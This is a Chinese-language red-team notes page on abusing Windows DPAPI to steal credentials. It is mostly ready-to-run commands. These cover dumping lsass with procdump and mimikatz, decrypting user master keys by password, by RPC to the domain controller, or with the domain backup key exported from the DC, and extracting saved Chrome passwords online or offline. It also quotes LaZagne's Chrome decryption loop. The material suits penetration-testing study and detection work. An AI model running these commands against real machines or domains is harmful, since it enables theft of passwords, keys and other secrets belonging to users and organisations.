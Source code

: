 ```yaml
---
title: DPAPI
date: 2020-12-31 23:59:59 +0800
categories: [域安全, TA0006凭据访问]
tags: [DPAPI, mimikatz, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




**参考:**

[How to hack a Windows password](https://miloserdov.org/?p=4129)

[How to decrypt stored Windows passwords using mimikatz and DAPA](https://miloserdov.org/?p=4205)

[渗透技巧-离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧-利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[Operational Guidance for Offensive User DPAPI Abuse](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

## DPAPI简介

DPAPI全称`Data Protection Application Programming Interface`，是Windows提供的用于数据保护的一套接口，常见应用如下:

- Credential Manager
- Windows Vault
- IE browser passwords
- Passwords for connecting to Wi-Fi networks
- Certifications
- VPN passwords
- SSH keys
- Google Chrome browser passwords
- Google Talk, Skype, Dropbox, iCloud, Safari credentials

加密解密过程全透明，只要调用CryptProtectData和CryptUnprotectData即可。由于解密需要masterkey，所以一般情况下只能在本机解密，不能离线。



**DPAPI blob：**

待解密的密文，guidMasterKey字段描述了需要哪个MasterKey File。

```
dpapi::protect /data:"Test string to encrypt" /out:crypted.txt
dpapi::blob /in:crypted.txt /unprotect /masterkey:MASTERKEY
```

![image-20201024225225835](/assets/img/image-20201024225225835.png)



**MasterKEY**

64字节，用于解密DPAPI blob

通过用户登录密码、SID和16字节随机数加密后保存在Master Key file中



**MasterKey File**

位于%APPDATA%\Microsoft\Protect\%SID%，属于系统隐藏文件，需要如下设置才能看到；为了安全起见，系统每隔90天会自动生成一个新的Master Key(旧的不会删除)

![image-20201024230153682](/assets/img/image-20201024230153682.png)



```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4
```

使用以上命令只可以解析MasterKey File，还需要用户登录密码和SID才能解密出MasterKey

```
dpapi::masterkey /in:ff610110-ff14-4275-8ef6-e6aa79ca25f4 /password:"password" /sid:"S-1-5-21-1122623846-1054905608-851323858-1002"
```



## 获取MasterKey

### 在线Dump 当前登录所有用户MasterKey

mimikatz访问Lsass，获取本机当前登录用户的MasterKey

```
privilege::debug
sekurlsa::dpapi
```

从lsass.dmp中也可以得到MasterKey

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump "PATH\TO\lsass.dmp"
sekurlsa::dpapi
```



![image-20201118184331974](/assets/img/image-20201118184331974.png)



### 使用明文密码获取MasterKey

```
dpapi::masterkey /in:"C:\Users\win10\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1103\1781cbd4-923c-4f2e-9d6c-1f4dce9ba8c2" /password:"Test1234" /sid:"S-1-5-21-2475887593-94489213-2292866110-1103" /protected

dpapi::masterkey /in:"C:\Users\win10_2\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1105\c5268b2b-a834-4cee-853c-dc187834234c" /protected /password:"Test1234" /sid:"S-1-5-21-2475887593-94489213-2292866110-1105"
```



### 请求DC解密获取MasterKey

只能获取当前用户的

Since we are in a machine that is joined in a domain let’s take advantage of MS-BKRP (BackupKey Remote Protocol) and ask the domain controller to decrypt it for us using the “/rpc” switch in “Mimikatz”:

```
dpapi::masterkey /in:"C:\Users\win10\AppData\Roaming\Microsoft\Protect\S-1-5-21-2475887593-94489213-2292866110-1103\1781cbd4-923c-4f2e-9d6c-1f4dce9ba8c2" /rpc
```



### 从DC导出.pvk文件，解密任意域用户MasterKey

只有域管理员才有权限执行此操作

```
lsadump::backupkeys /system:"ringdc-pc.ring2.com" /export
```

![image-20201118203528068](/assets/img/image-20201118203528068.png)

```
dpapi::masterkey /in:a85b343b-6359-48e1-b89e-3616d239c809 /pvk:ntds_capi_0_0a40e56c-aae4-4c77-b72c-a07212b898b2.keyx.rsa.pvk
```

![image-20201118204117645](/assets/img/image-20201118204117645.png)



## MasterKey解密Chrome密码

DB文件: C:\Users\DELL\AppData\Local\Google\Chrome\User Data\Default\Login Data

1. 它是一个sqlite数据库文件，存储了url、账号、加密后的密码；
2. 密码使用Windows API [CryptProtectData()](https://docs.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata)加密，对应解密函数为[CryptUnprotectData()](https://docs.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata)
   1. 解密需要用户凭据，加密时的设置(CRYPTPROTECT_LOCAL_MACHINE flag)决定了谁可以解密数据，一般情况下是设置加密的用户才可以解密数据。
   2. 通常只能在加密数据的计算机上进行解密，但如果一个用户有Roaming profile则可以解密其他机器上的Chrome Login Data文件。

使用sqlitestudio可以查看DB中数据，chrome打开是DB文件不能访问，可以先拷贝一份。

![image-20201024223938962](/assets/img/image-20201024223938962.png)



以LaZagne Project中的解密实现为例：

LaZagne-2.4.2\Windows\lazagne\softwares\browsers\chromium_based.py中_export_credentials函数

```
        try:
            conn = sqlite3.connect(db_path)
            cursor = conn.cursor()
            cursor.execute(self.database_query)
        except Exception as e:
            self.debug(str(e))
            return credentials

        for url, login, password in cursor.fetchall():
            try:
                # Decrypt the Password
                password = Win32CryptUnprotectData(password, is_current_user=constant.is_current_user, user_dpapi=constant.user_dpapi)
                if not url and not login and not password:
                    continue
                    
                credentials.append((url, login, password))
            except Exception:
                self.debug(traceback.format_exc())

        conn.close()
```

mimikatz也支持在线Dump Chrome密码

```
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```



如果有MasterKey, 可以离线导出Chrome密码

```
dpapi::chrome /in:"PATH\TO\Login Data" /unprotect /masterkey:MASTERKEY
```



## mimikatz操作blob data



如果拿到了masterkey，mimikatz会把它缓存下来，后面不指定/masterkey:也可以

```
dpapi::cache
dpapi::cache /save /file:cache.bin
dpapi::cache /load /file:cache.bin
```

